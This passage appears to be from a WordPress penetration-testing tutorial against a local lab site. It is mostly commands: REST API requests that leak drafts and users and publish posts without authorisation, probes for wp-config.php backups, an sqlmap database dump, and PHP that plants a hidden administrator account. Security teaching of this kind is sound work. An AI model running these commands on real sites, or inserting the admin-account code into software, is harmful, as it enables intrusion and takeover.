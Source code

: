 ### 10. REST API Vulnerabilities

#### Information Disclosure
```bash
# List all posts (including drafts)
curl http://localhost:8087/wp-json/wp/v2/posts?status=draft

# User information
curl http://localhost:8087/wp-json/wp/v2/users

# Media files
curl http://localhost:8087/wp-json/wp/v2/media
```

#### Unauthorized Modifications
```bash
# If REST API authentication is weak
curl -X POST http://localhost:8087/wp-json/wp/v2/posts \
  -H "Content-Type: application/json" \
  -d '{"title":"Hacked","content":"Pwned","status":"publish"}'
```

## Advanced Exploitation

### 1. wp-config.php Exposure
```bash
# Common backup locations
curl http://localhost:8087/wp-config.php.bak
curl http://localhost:8087/wp-config.php.save
curl http://localhost:8087/wp-config.php~
curl http://localhost:8087/.wp-config.php.swp
```

### 2. Database Extraction
```bash
# Via SQL injection
sqlmap -u "http://localhost:8087/?p=1" --batch --dump

# Via exposed backups
wget http://localhost:8087/backup/database.sql
wget http://localhost:8087/wp-content/mysql.sql
```

### 3. Privilege Escalation
```php
// Exploit vulnerable plugin to add admin
global $wpdb;
$wpdb->insert($wpdb->users, array(
    'user_login' => 'hacker',
    'user_pass' => wp_hash_password('hacked'),
    'user_email' => 'hacker@evil.com',
    'user_registered' => current_time('mysql'),
    'user_status' => 0,
    'display_name' => 'Hacker'
));

$user_id = $wpdb->insert_id;
$wpdb->insert($wpdb->usermeta, array(
    'user_id' => $user_id,
    'meta_key' => 'wp_capabilities',
    'meta_value' => 'a:1:{s:13:"administrator";b:1;}'
));
```
